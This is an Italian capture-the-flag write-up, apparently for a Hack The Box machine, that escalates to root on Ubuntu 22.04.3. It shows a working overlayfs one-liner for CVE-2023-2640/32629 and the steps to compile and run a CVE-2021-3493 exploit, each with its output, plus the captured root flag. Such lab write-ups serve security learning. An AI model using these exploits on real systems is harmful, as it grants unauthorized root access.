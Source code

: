 Cercano su google per la versione `Ubuntu 22.04.3 LTS` troviamo [Questo](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) post
dove si parla di due CVE. LA  [**CVE-2023–2640**](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)e la  [**CVE-2023–32629**](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/).

## CVE -2023-2640

Partiamo dalla prima 

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
mkdir: cannot create directory ‘1’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
Failed to set capabilities on file `1/python3' (No such file or directory)
The value of the capability argument is not permitted for a file. Or the file is not a regular (non-symlink) file
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

Nel mio caso, la CVE-2023–2640 si è rivelata subito efficace ed è stato ottenuto l'accesso root.

e ci prendiamo la nostra root_flag
```bash
root@analytics:~# cat /root/root.txt
5d94322c58e7914aea78481289b35403
```


# CVE-2021-3493

Cercando ancora su google troviamo anche questa [CVE-2021-3493](https://www.exploit-db.com/docs/49916) dove troviamo tutto il materiale per procedere.

una volta scaricato la repo da GitHub dobbiamo compilare l'exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical/CVE-2021-3493]
└─# gcc exploit.c -o exploit

┌──(root㉿kali)-[/home/kali/htb/analytical/CVE-2021-3493]
└─# ls
exploit  exploit.c  README.md
```

lo copiamo sull target con wget ed eseguiamo 

```bahs
metalytics@analytics:~$ ls
CVE-2021-4034.py  exploit  LinPEAS.sh  ovlcap  user.txt
metalytics@analytics:~$ ./exploit
bash-5.1# id
uid=0(root) gid=0(root) groups=0(root),1000(metalytics)

```

